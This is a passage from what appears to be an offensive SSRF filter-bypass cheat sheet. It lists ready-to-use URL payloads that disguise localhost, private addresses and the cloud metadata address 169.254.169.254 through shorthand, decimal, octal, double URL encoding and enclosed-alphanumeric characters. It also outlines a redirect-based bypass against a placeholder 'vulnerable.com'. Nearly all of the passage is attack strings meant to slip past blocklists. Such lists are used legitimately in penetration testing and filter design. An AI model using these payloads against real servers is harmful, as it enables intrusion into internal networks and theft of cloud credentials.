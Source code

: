 You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```


### Bypass Using an Encoded IP Address

* Decimal IP location
    ```powershell
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
    http://2852039166/ = http://169.254.169.254
    ```

* Octal IP: Implementations differ on how to handle octal format of IPv4.
    ```powershell
    http://0177.0.0.1/ = http://127.0.0.1
    http://o177.0.0.1/ = http://127.0.0.1
    http://0o177.0.0.1/ = http://127.0.0.1
    http://q177.0.0.1/ = http://127.0.0.1
    ```


### Bypass Using Different Encoding

* URL encoding: Single or double encode a specific URL to bypass blacklist
    ```powershell
    http://127.0.0.1/%61dmin
    http://127.0.0.1/%2561dmin
    ```

* Enclosed alphanumeric: `①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛⒜⒝⒞⒟⒠⒡⒢⒣⒤⒥⒦⒧⒨⒩⒪⒫⒬⒭⒮⒯⒰⒱⒲⒳⒴⒵ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂⓃⓄⓅⓆⓇⓈⓉⓊⓋⓌⓍⓎⓏⓐⓑⓒⓓⓔⓕⓖⓗⓘⓙⓚⓛⓜⓝⓞⓟⓠⓡⓢⓣⓤⓥⓦⓧⓨⓩ⓪⓫⓬⓭⓮⓯⓰⓱⓲⓳⓴⓵⓶⓷⓸⓹⓺⓻⓼⓽⓾⓿`
    ```powershell
    http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
    ```

* Unicode encoding: In some languages (.NET, Python 3) regex supports unicode by default. `\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.


### Bypassing Using a Redirect

1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to `vulnerable.com/index.php?url=http://redirect-server`
3. You can use response codes [HTTP 307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) and [HTTP 308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308) in order to retain HTTP method and body after the redirection.

To perform redirects without hosting own redirect server or perform seemless redirect target fuzzing, use [Horlad/r3dir](https://github.com/Horlad/r3dir).
